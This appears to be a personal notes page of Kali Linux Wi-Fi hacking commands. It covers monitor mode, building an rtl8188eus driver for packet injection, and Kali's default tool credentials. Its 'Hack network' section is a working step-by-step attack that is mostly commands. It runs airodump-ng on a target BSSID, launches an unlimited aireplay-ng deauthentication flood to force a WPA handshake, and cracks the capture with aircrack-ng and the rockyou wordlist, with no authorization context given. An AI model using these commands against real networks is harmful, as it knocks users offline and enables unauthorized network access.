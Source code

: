 ## Restoring Networkmanager after airmon-ng check kill

I am writing this from (kali-2019.1)

I usually call on airmon-ng like this:

airmon-ng check 

Found 3 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

PID Name
2558 NetworkManager
2573 wpa_supplicant
2575 dhclient

Then "airmon-ng check kill"
Then use: "airmon-ng start wlan0"
Which creates the virtual interface "wlan0mon"

When you are done tinkering in monitor mode, and would like to use managed mode again.

airmon-ng stop wlan0mon (or whatever the virtual interface name is)
service NetworkManager start
service wpa_supplicant start

And you may need to use "ifconfig wlan0 down/up". I have found it really depends on the card in use.

~Hope this helps you out


## Hack network
! See version of Kali
cat /etc/os-release
uname -a

! See interfaces
ip addr
iwconfig

!kill processes
sudo airmon-ng check kill

!Start monitor mode
sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig  
!or just
sudo airmon-ng start wlan0

!Verify that monitor mode is used
sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
iwconfig

! Get the AP's MAC address and channel
sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

!Stop monitor mode
airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 



## TP-Link adapter for WLAN hacking (Monitor mode & packet injection mode) 

#### New updated method is just using $sudo apt install -y realtek-rtl8188eus-dkms
!Use these commands to get the adapter working on Kali for packet injection and monitoring:
!Commands:
```bash
sudo apt update
sudo apt upgrade
sudo apt install bc
sudo apt-get install build-essential 
sudo apt-get install libelf-dev
``` 

Try either of these commands to see which works:
```bash
sudo apt-get install linux-headers-`uname -r`
sudo apt-get install linux-headers-5.10.0-kali6-amd64
```
For Raspberrypi try:
```bash
sudo apt-get install raspberrypi-kernel-headers

sudo apt install dkms
sudo rmmod r8188eu.ko
git clone https://github.com/aircrack-ng/rtl8188eus
cd rtl8188eus
sudo -i
echo "blacklist r8188eu" > "/etc/modprobe.d/realtek.conf"
exit
sudo reboot
sudo apt update
cd rtl8188eus
sudo make
sudo make install
sudo modprobe 8188eu
```
!To enable Monitor mode and test packet injection:
!=================================================
```bash
sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                             
sudo aireplay-ng --test wlan0
```

## Kali's Default Credentials
Kali changed to a non-root user policy by default since the release of 2020.1.

This means:

During the installation of amd64 and i386 images, it will prompt you for a standard user account to be created.
Any default operating system credentials used during Live Boot, or pre-created image (like Virtual Machines & ARM) will be:
User: kali
Password: kali

Vagrant image (based on their policy):
Username: vagrant
Password: vagrant

Amazon EC2:
User: kali
Password: <ssh key>

Default Tool Credentials

Some tools shipped with Kali, will use their own default hardcoded credentials (others will generate a new password the first time its used). The following tools have the default values:
BeEF-XSS
Username: beef
Password: beef
Configuration File: /etc/beef-xss/config.yaml

MySQL
User: root
Password: (blank)
Setup Program: mysql_secure_installation

OpenVAS
Username: admin
Password: <Generated during setup>
Setup Program: openvas-setup

Metasploit-Framework
Username: postgres
Password: postgres
Configuration File: /usr/share/metasploit-framework/config/database.yml

PowerShell-Empire/Starkiller
Username: empireadmin
Password: password123

For versions of Kali Linux older than 2020.1, here is our previous credential information and root policy information.